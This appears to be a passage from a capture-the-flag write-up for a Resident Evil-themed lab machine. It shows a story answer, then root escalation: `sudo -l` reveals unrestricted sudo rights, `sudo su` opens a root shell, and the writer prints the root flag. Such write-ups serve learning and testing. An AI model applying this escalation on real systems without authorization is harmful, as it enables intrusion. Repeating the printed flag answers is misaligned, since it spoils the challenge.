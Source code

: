 ```tsx
Alarm: Warning! warning! Self-detruct sequence has been activated. All personal, please evacuate immediately. (Repeat)
Jill: Poor bastard
```

Answer: **Tyrant** _(Weasker: Let me show you the ultimate lifeform, the Tyrant.)_

### The root flag

```tsx
weasker@umbrella_corp:~$ sudo -l
[sudo] password for weasker:
Matching Defaults entries for weasker on umbrella_corp:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User weasker may run the following commands on umbrella_corp:
    (ALL : ALL) ALL
```

The `weasker` user can run all `sudo` commands → Simply type `sudo su` to switch to the **root** user:

```tsx
weasker@umbrella_corp:~$ sudo su
root@umbrella_corp:/home/weasker# id
uid=0(root) gid=0(root) groups=0(root)
root@umbrella_corp:/home/weasker# cd /root
root@umbrella_corp:~# cat root.txt
In the state of emergency, Jill, Barry and Chris are reaching the helipad and awaiting for the helicopter support.

Suddenly, the Tyrant jump out from nowhere. After a tough fight, brad, throw a rocket launcher on the helipad. Without thinking twice, Jill pick up the launcher and fire at the Tyrant.

The Tyrant shredded into pieces and the Mansion was blowed. The survivor able to escape with the helicopter and prepare for their next fight.

The End

flag: 3c5794a00dc56c35f2bf096571edf3bf
```
